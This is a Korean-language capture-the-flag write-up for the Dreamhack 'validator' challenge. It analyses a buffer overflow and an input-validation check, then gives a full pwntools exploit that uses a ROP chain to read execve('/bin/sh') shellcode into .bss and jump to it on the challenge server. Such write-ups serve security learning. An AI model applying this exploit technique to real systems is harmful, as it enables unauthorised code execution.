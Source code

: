 dreamhack validator
============

## 1. 보호 기법 확인

<img width="811" height="241" alt="image" src="https://github.com/user-attachments/assets/0c411c0f-d011-4e7c-b0e6-a7de4f3667a6" />

모든 보호 기법이 꺼져있다.


## 2. 코드 분석

<img width="640" height="203" alt="image" src="https://github.com/user-attachments/assets/35fea755-538f-4612-8366-1cbb772c0536" />

* `read(0, s, 0x400)`때문에 버퍼 오버플로우가 발생한다.
* `validate(s, 128)` 함수를 호출한다.


---------------

<img width="723" height="355" alt="image" src="https://github.com/user-attachments/assets/67aca9a4-f2ba-4650-b5a5-b48862457331" />

* 문자열의 처음 열 글자는 DREAMHACK!이어야한다.
* 문자열의 12번째 글자부터 128번째 글자 까지는 s[i] = s[i+1] + 1 이어야 한다.
* 마지막 128번째 글자는 129번째 글자와 비교해서 s[i] = s[i+1] + 1 조건을 만족해야 한다.




## 3. 익스플로잇

NX 보호 기법이 꺼져 있어서 쉘 코드를 사용할 수 있다. 문제에서 주어진 커널 버전으로는 NX 비활성화 시 읽기 권한이 있는 메모리에 실행 권한이 존재하므로 bss(Beginning of Symbol Segment) 영역에서 쉘 코드를 쓰고 ret를 bss 주소로 변조하는 방법을 사용할 수 있다.   

또 validator_server의 조건을 확인하면 큰 숫자부터 내림차순으로 1바이트씩 페이로드에 추가하는 방식으로 작성할 수 있다는 것을 짐작할 수 있다.

### 오프셋 구하기

<img width="793" height="508" alt="image" src="https://github.com/user-attachments/assets/cf7242a8-61b3-4839-94ef-9b06cc4819c5" />


```
   0x0000000000400658 <+30>:    lea    rax,[rbp-0x80]		    # rax = s
   0x000000000040065c <+34>:    mov    edx,0x400		        # edx = 0x400 
   0x0000000000400661 <+39>:    mov    rsi,rax				      # rsi = s
   0x0000000000400664 <+42>:    mov    edi,0x0				      # edi = 0
   0x0000000000400669 <+47>:    call   0x400470 <read@plt>	# read(0, s, 0x400)
   0x000000000040066e <+52>:    lea    rax,[rbp-0x80]
```

### 익스플로잇 코드

```
from pwn import *

p = remote("host8.dreamhack.games", 9383)
e = ELF("validator_server")
r = ROP(e)

context.arch = "amd64"

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))

read_plt = e.plt["read"]
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = r.find_gadget(['pop rdx', 'ret'])[0]
bss = e.bss()

payload = b"DREAMHACK!"
list = []

for i in range(118, -1, -1):
        list.append(i)

payload += bytes(list)
payload += b"B"*7

payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(bss) + p64(0)
payload += p64(pop_rdx) + p64(len(shellcode)+1)
payload += p64(read_plt)

payload += p64(bss)

sleep(0.5)
p.send(payload)
sleep(0.5)
p.send(shellcode)

p.interactive()
```


### 실행 결과

<img width="1038" height="456" alt="image" src="https://github.com/user-attachments/assets/61462b65-0bc0-4e1d-8b19-fc4ed2315f63" />





